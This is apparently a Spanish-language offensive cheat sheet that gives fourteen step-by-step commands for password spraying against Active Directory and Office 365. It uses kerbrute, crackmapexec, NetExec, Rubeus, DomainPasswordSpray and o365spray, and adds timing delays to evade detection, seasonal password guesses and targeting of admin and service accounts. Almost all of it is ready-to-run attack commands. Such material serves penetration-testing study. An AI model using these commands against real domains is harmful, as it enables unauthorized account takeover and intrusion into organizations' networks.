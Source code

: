
## 💻 Ejemplo práctico ofensivo (paso a paso)

```bash
# 1. Enumerar usuarios válidos del dominio
kerbrute userenum --dc 10.10.10.100 -d domain.com userlist.txt

# 2. Verificar política de bloqueo de cuentas
net accounts /domain

# 3. Password spraying con CrackMapExec (SMB)
crackmapexec smb targets.txt -u users.txt -p 'Password123' --continue-on-success

# 4. Password spraying con NetExec (nueva versión)
nxc smb 10.10.10.100 -u users.txt -p 'Company2024' --continue-on-success

# 5. Kerberos password spraying con Rubeus
.\Rubeus.exe passwordspray /domain:domain.com /users:users.txt /passwords:passwords.txt /outfile:spraying_results.txt

# 6. LDAP password spraying con crackmapexec
crackmapexec ldap 10.10.10.100 -u users.txt -p 'Summer2024' --continue-on-success

# 7. WinRM password spraying
crackmapexec winrm 10.10.10.100 -u users.txt -p 'Welcome123' --continue-on-success

# 8. Password spraying con delay para evadir detección
for user in $(cat users.txt); do
    crackmapexec smb 10.10.10.100 -u $user -p 'Password123'
    sleep 60  # 1 minuto entre intentos
done

# 9. Spray con múltiples contraseñas espaciadas
python3 DomainPasswordSpray.py -u users.txt -p passwords.txt -d domain.com -DC 10.10.10.100 -sleep 120

# 10. Kerberos spraying sin lockout con kerbrute
kerbrute passwordspray --dc 10.10.10.100 -d domain.com users.txt 'Password123'

# 11. Password spraying contra OWA/O365
python3 o365spray.py --enum -U users.txt --domain company.com
python3 o365spray.py --spray -U valid_users.txt -P passwords.txt --count 1 --lockout 1 --domain company.com

# 12. Spraying con rotación de contraseñas estacionales
# Enero: Winter2024, Febrero: February2024, etc.
current_month=$(date +%B)
current_year=$(date +%Y)
password="${current_month}${current_year}"
crackmapexec smb targets.txt -u users.txt -p "$password"

# 13. Targeting de cuentas específicas (administradores)
grep -E "(admin|svc|service)" users.txt > high_value_users.txt
crackmapexec smb 10.10.10.100 -u high_value_users.txt -p 'Admin123' --continue-on-success

# 14. Spraying con lista personalizada por organización
echo "Password123" > org_passwords.txt
echo "CompanyName2024" >> org_passwords.txt
echo "Welcome2024" >> org_passwords.txt
crackmapexec smb 10.10.10.100 -u users.txt -p org_passwords.txt --continue-on-success
```

---